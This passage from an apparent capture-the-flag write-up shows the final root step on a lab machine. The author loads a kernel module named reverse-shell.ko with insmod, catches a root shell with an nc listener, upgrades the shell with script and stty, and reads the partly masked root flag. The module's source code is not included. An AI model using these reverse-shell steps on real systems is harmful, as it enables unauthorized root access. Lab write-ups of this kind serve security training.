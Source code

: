 This will error if the space before each line in the `Makefile` are spaces rather than a tab.

Now I’ll run `insmod reverse-shell.ko` to load the module, and on doing so, I’ll get a connection back at `nc` with a root shell on the host:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.9 58376
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@magicgardens:/# 

```

I’ll upgrade my shell:

```

root@magicgardens:/# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@magicgardens:/# ^Z
[1]+  Stopped                 nc -lnvp 444
(venv) oxdf@hacky$ stty raw -echo; fg
nc -lnvp 444
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@magicgardens:/#

```

And grab `root.txt`:

```

root@magicgardens:/root# cat root.txt
396b3686************************

```